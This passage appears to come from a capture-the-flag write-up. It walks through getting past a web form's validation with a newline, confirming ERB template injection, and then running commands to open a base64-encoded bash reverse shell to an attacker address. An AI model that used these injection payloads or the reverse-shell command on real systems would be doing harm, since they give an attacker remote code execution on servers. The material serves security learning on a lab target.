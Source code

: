 It did not find anything I could use. While looking at [more ways to get command injection](https://book.hacktricks.xyz/pentesting-web/pocs-and-polygloths-cheatsheet#command-injection), I realized that by adding a new line I could bypass the validation.

If I posted

```
... &category5=5`&grade5=20&weight5=20
```

I got an error. But adding a new line (%0a) did not error out.


```
&category5=5%0a`&grade5=20&weight5=20
```


```html
 Your total grade is 20%<p>1: 4%</p>
<p>2: 4%</p>
<p>3: 4%</p>
<p>4: 4%</p>
<p>5
    `: 4%</p>
```

I tried adding the command injection and [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby) payloads until I found one that worked. Sending `<%= 7*7 %>` returned 49, which meant the code was vulnerable to SSTI.

I tried to use this to run code on the server.

```
&category5=5%0a<%25= `ls /` %25>&grade5=20&weight5=20
```

```html
<p>5
        bin
        boot
        dev
        etc
        home
...
        var
        : 4%</p>
```

With that confirmation, created a payload get a reverse shell.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.87/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODcvNDQ0NCAwPiYxICAK
```

I started a netcat listener and sent the payload to the server.

```
&category5=5%0a<%25= `echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODcvNDQ0NCAwPiYxICAK|base64 -d |bash` %25>&grade5=20&weight5=20
```
